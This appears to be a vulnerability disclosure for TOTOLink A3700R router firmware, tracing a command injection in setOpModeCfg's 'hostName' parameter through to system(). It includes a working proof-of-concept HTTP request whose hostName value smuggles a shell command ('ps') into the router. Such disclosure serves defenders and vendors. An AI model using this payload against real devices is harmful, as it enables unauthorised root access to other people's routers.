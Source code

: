 # TOTOLink A3700R V9.1.2u.6134_B20201202 Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ： http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=69&ids=36

### Product Information

TOTOLink A3700R V9.1.2u.6134_B20201202 router, the latest version of simulation overview：

![image-20220719210324254](img/image-20220719210324254.png)

## Vulnerability details

TOTOLINK A3700R (V9.1.2u.6134_B20201202) was found to contain a command insertion vulnerability in setOpModeCfg.This vulnerability allows an attacker to execute arbitrary commands through the "hostName" parameter.

![image-20220719225606059](img/image-20220719225606059.png)

![image-20220719225916336](img/image-20220719225916336.png)

![image-20220719231241544](img/image-20220719231241544.png)

By calling these functions, we can ultimately call sub_4241E0 function (as shown in the last picture). By setting the proto value to 1, we can reach the default branch.V48 passes directly into the dosystem function.

![image-20220719205544791](img/image-20220719205544791.png)

The dosystem function is finally found to be implemented in this file by string matching.

![image-20220719205811209](img/image-20220719205811209.png)

Reverse analysis found that the function was called directly through the system function, which has a command injection vulnerability.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Length: 52
Origin: http://192.168.0.1
DNT: 1
Connection: close
Cookie: SESSION_ID=2:1658224702:2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Pragma: no-cache
Cache-Control: no-cache

{"hostName":"admin';ps #","proto":"1","opmode":"br","topicurl":"setOpModeCfg"}
```

![image-20220719212510596](img/image-20220719212510596.png)

 The above figure shows the POC attack effect 

![image-20220720065911385](img/image-20220720065911385.png)

Finally, you can write exp to get a stable root shell without authorization.
